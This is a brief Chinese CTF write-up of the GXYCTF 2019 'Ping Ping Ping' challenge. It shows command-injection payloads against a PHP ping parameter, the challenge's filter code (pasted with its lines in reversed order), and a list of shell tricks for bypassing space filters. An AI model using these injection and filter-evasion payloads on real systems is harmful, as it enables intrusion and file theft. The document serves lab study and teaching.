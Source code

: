 #RCE

![Pasted image 20230507102601.png](../../.image/Pasted%20image%2020230507102601.png)
框中输入东西后发现是链接中多了 /?ip=

尝试

```url
?ip=127.0.0.1;ls
```

发现有`flag.php`和`index.php`

过滤了空格，先查看一下 `index.php`

```url
/?ip=127.0.0.1;tac$IFS$9index.php
```

发现过滤

```php
$a = shell_exec("ping -c 4 ".$ip);
		}
			die("fxck your flag!");
		else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
		}
			die("fxck your bash!");
		else if(preg_match("/bash/", $ip)){
		}
			die("fxck your space!");
		else if(preg_match("/ /", $ip)){
		}
			die("fxck your symbol!");
			echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
			print($ip);
			print_r($match);
		if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
```

利用内联执行查看`flag.php`

```
/?ip=127.0.0.1;tac$IFS$9`ls`
```

##### 绕过空格

```sh
{cat,flag.txt}
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat$IFS$1flag.txt
cat<flag.txt
%09替换
cat<>flag.txt
kg=$'\x20flag.txt'&&cat$kg
(\x20转换成字符串就是空格，这里通过变量的方式巧妙绕过)
```

[[GXYCTF 2019]Ping Ping Ping_XiLitter 的博客-CSDN 博客](https://blog.csdn.net/m0_62422842/article/details/124616206)
